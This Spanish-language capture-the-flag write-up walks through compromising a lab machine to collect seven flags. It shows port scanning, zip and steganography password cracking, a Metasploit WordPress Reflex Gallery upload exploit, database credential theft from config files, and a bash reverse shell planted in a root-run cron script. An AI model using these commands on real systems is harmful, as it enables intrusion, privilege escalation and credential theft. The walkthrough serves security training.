







# Reto 3 The Big Bang Theory - Fun_with_flags
Herramientas utilizadas:
- nmap
- netcat
- dirbuster
- metasploit
- wpscan
- fcrackzip
- stegcracker

Este reto consiste en aplicar técnicas de hacking para encontrar 7 banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap -sCV -p- 10.32.2.46
```
Como resultado obtenemos la siguiente información:
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp           539 Mar 04 01:11 Welcome.txt
| -rw-r--r--    1 ftp      ftp           114 Mar 04 01:13 ftp_agreement.txt
|_drwxr-xr-x    9 ftp      ftp          4096 Mar 04 01:09 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cf:5c:ee:76:7c:48:52:06:8d:56:07:7f:f6:5d:80:f2 (RSA)
|   256 ab:bb:fa:f9:89:99:02:9e:e4:20:fa:37:4f:6f:ca:ca (ECDSA)
|_  256 ea:6d:77:f3:ff:9c:d5:dd:85:e3:1e:75:3c:7b:66:47 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 4 disallowed entries 
|_/howard /web_shell.php /backdoor /rootflag.txt
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Fun with flags!
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.80%I=7%D=4/22%Time=5EA014FB%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(GenericLine
SF:s,2F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(GetRequest,2
SF:F,"FLAG-sheldon{cf88b37e8cb10c4005c1f2781a069cf8}\n")%r(HTTPOptions,2F,
```
Nótese que el puerto 1337 de la máquina víctima nos proporciona la primera flag.
```
flag{cf88b37e8cb10c4005c1f2781a069cf8}
```
Además nos brinda información sobre los demás puertos abiertos (ftp 21, ssh 22, http 80). Podemos observar que el puerto 21 permite la autenticación al servicio ftp con usuario anonymous.

Luego de revisar los ficheros que se encuentran en el servidor ftp, encontramos en el directorio de Howard un archivo .zip protegido con contraseña y una nota.

<p align="center">  </p>
<p align="center">  </p>

Luego de descargarnos los archivos, utilizamos la herramienta ```fcrackzip``` para encontrar la contraseña del comprimido.
```
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' super_secret_nasa_stuff_here.zip
```
<p align="center">  </p>

Descomprimimos el archivo usando ```unzip``` y obtenemos una imagen cifrada por lo que tenemos que encontrar la contraseña de la imagen para ver el contenido.
```
unzip super_secret_nasa_stuff_here.zip
```
<p align="center">  </p>

Utilizando la herramienta ```stegcracker``` encontramos la contraseña y visualizamos el contenido de la imagen obteniendo la seguda flag.
```
stegcracker marsroversketch.jpg /usr/share/wordlists/rockyou.txt
```
<p align="center">  </p>
<p align="center">  </p>

```
flag{b3d1baf22e078744ad7947519bf4}
```

Revisamos elpuerto 80 en la web y en un principio lo que obtenemos es una imagen:
<p align="center">  </p>

Con la herramienta ```dirbuster``` encontramos directorio de wordpress (**/music/wordpress/**).
```
dirb http://10.32.2.46
```
Posteriormente utilizamos la herramienta ```wpscan``` con la cual encontramos 2 vulnerabilidades y 3 usuarios potenciales
```
wpscan --url http://10.32.2.46/music/wordpress/
```
```
Vulnerabilidades:
- reflex gallery <= 3.1.3
- multiple plugin - jQuery pretty Photo (XSS)

Usuarios:
- footprintson themoon
- stleart
- kipke
```
Con la herramienta ```metasploit``` encontramos un exploit disponible para la vulnerabilidad **reflex** el cual usamos para ganar acceso en la máquina víctima.
<p align="center">  </p>

```
msfconsole
msf5 > search reflex
msf5 > use exploit/unix/webapp/wp_reflexgallery_file_upload
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > set RHOST 10.32.2.46
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > set TARGETURI /music/wordpress/
msf5 exploit(unix/webapp/wp_reflexgallery_file_upload) > exploit
meterpreter > shell
```

Dentro de la máquina víctima accedemos al directorio de Penny y listamos la tercera flag del reto.
<p align="center">  </p>

```
cat .FLAG.penny.txt
  RkxBRy1wZW5ueXtkYWNlNTJiZGIyYTBiM2Y40TlkZmIzNDIzYTk5MmIyNX0=
```
La flag se encuentra cifrada en base64 por lo que la llevamos a texto claro.
```
echo "RkxBRy1wZW5ueXtkYWNlNTJiZGIyYTBiM2Y40TlkZmIzNDIzYTk5MmIyNX0=" | base64 -d
```
Tercera flag: ```flag{dace52bdb2a0b3f89dfb3423a992b25}```

En el directorio de Amy ```/home/amy``` encontramos 2 ficheros, un **notes.txt** y un **secretdiary**
```
cd /home/amy
cat notes.txt
  This is my secret diary.
  The safest way to keep my secrets is inside a compiled executable program.
  As soon as I get popular now, that I have friends, I will start adding my secrets here.
  I have used a really strong password that it cant be bruteforced.
  Seriously it is 18 digit, alphanumeric, uppercase/lowercase with symbols.
  And since my program is already compiled, no one can read the source code in order to view the password!
```

El archivo **secretdiary** es un binario ejecutable protegido con contraseña. Utilizamos la herramienta **strings** para encontrar la flag ubicada en el archivo **secretdiary**
```
strings secretdiary
```
Cuarta flag: ```flag{60263777358690b90e8dbe8fea6943c9}```

Revisamos el directorio ```/var/www/html/music/wordpress``` y encontramos el fichero ```wp-config.php``` el cual contiene credenciales de acceso a la base de datos.
```
cd /var/www/html/music/wordpress
cat wp-config.php
```
<p align="center">  </p>

Usamos las credenciales encontradas y localizamos la otra flag del reto:
```
mysql -u footprintsonthemoon -p
Enter password: footprintsonthemoon1337
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 65066
Server version: 5.7.25-0ubuntu0.16.04.2 (Ubuntu)
Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show databases;
+---------------------+
| Database            |
+---------------------+
| information_schema  |
| footprintsonthemoon |
+---------------------+
2 rows in set (0.00 sec)
mysql> use footprintsonthemoon;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
+--------------------------------+
| Tables_in_footprintsonthemoon  |
+--------------------------------+
| wp_commentmeta                 |
| wp_comments                    |
| wp_links                       |
| wp_options                     |
| wp_postmeta                    |
| wp_posts                       |
| wp_reflex_gallery              |
| wp_reflex_gallery_images       |
| wp_responsive_thumbnail_slider |
| wp_term_relationships          |
| wp_term_taxonomy               |
| wp_termmeta                    |
| wp_terms                       |
| wp_usermeta                    |
| wp_users                       |
+--------------------------------+
15 rows in set (0.00 sec)
mysql> select * from wp_users;
+----+---------------------+------------------------------------+---------------------+-----------------------------------+----------+---------------------+-----------------------------------------------+-------------+---------------------+
| ID | user_login          | user_pass                          | user_nicename       | user_email                        | user_url | user_registered     | user_activation_key                           | user_status | display_name        |
+----+---------------------+------------------------------------+---------------------+-----------------------------------+----------+---------------------+-----------------------------------------------+-------------+---------------------+
|  1 | footprintsonthemoon | $P$BFLeWWEe.4pVHfJB6s6P6.0c6nYctc/ | footprintsonthemoon | footprintsonthemoon@localhost.com |          | 2020-03-04 13:20:41 |                                               |           0 | footprintsonthemoon |
|  2 | kripke              | $P$BDKbtgEvH7gYy.WN/yHpgXCuxDPxRz/ | kripke              | kripke@kripke.com                 |          | 2020-03-04 13:44:57 | 1583329498:$P$B/6Ncexoc9g3tJOggQJvo2/npr5WHw0 |           0 | kripke              |
|  3 | stuart              | $P$BpHBwNm3fHTK28WUvZThgDmIJkmZrY/ | stuart              | stuart@stuart.com                 |          | 2020-03-04 13:48:30 | 1583329711:$P$BJbz3KB.OSQUCk/cZjlGFNrXAxJe7B1 |           0 | stuart              |
+----+---------------------+------------------------------------+---------------------+-----------------------------------+----------+---------------------+-----------------------------------------------+-------------+---------------------+
3 rows in set (0.00 sec)
mysql> select * from wp_posts;
....
<!-- wp:paragraph -->
<p>FLAG-raz{40d17a74e28a62eac2df19e206f0987c}</p>
<!-- /wp:paragraph -->
```
Quinta flag: flag{40d17a74e28a62eac2df19e206f0987c}

Posteriormente accedemos al directorio ```/var/www/html/private/``` y encontramos el fichero ```db_config.php``` que contiene otras credenciales de acceso.
```
cd /var/www/html/private/
cat db_config.php
```
<p align="center">  </p>

Usamos las credenciales encontradas y localizamos la otra flag del reto:
```
mysql -u bigpharmacorp -p
Enter password: weareevil
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 158
Server version: 5.7.25-0ubuntu0.16.04.2 (Ubuntu)
Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| bigpharmacorp      |
+--------------------+
2 rows in set (0.00 sec)
mysql> use bigpharmacorp;
use bigpharmacorp;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
show tables;
+-------------------------+
| Tables_in_bigpharmacorp |
+-------------------------+
| products                |
| users                   |
+-------------------------+
2 rows in set (0.00 sec)
mysql> select * from users;
select * from users;
+----+------------+----------------------------------+------------+---------------------------------------------------+
| id | username   | password                         | fname      | description                                       |
+----+------------+----------------------------------+------------+---------------------------------------------------+
|  1 | admin      | 3fc0a7acf087f549ac2b266baf94b8b1 | josh       | Dont mess with me                                 |
|  2 | bobby      | 8cb1fb4a98b9c43b7ef208d624718778 | bob        | I like playing football.                          |
|  3 | penny69    | cafa13076bb64e7f8bd480060f6b2332 | penny      | Hi I am Penny I am new here!! <3                  |
|  4 | mitsos1981 | 05d51709b81b7e0f1a9b6b4b8273b217 | dimitris   | Opa re malaka!                                    |
|  5 | alicelove  | e146ec4ce165061919f887b70f49bf4b | alice      | Eat Pray Love                                     |
|  6 | bernadette | dc5ab2b32d9d78045215922409541ed7 | bernadette | FLAG-bernadette{f42d950ab0e966198b66a5c719832d5f} |
+----+------------+----------------------------------+------------+---------------------------------------------------+
6 rows in set (0.00 sec)
mysql>
```
Sexta flag: ```flag{f42d950ab0e966198b66a5c719832d5f}```

Para la última flag del reto, accedemos al directorio ```/home/leonard/``` el cual contiene un script en bash donde el propietario es root y tenemos permisos de escritura. Revisamos el script y observamos que se ejecuta cada cierto tiempo. 

<p align="center">  </p>

Agregamos una línea de código que nos permite entablarnos una reverse shell con la máquina víctima.
```
bash -i >& /dev/tcp/10.8.144.236/4142 0>&1
```
En nuestra máquina local nos ponemos en escucha por el puerto 4142 que definimos en el codigo del script y esperamos a que se entable la conexión.
```
nc -nlvp 4142
```
En este punto solo nos queda listar la flag final del reto:

<p align="center">  </p>

Última flag: ```flag{17fc95224b65286941c54747704acd3e}```
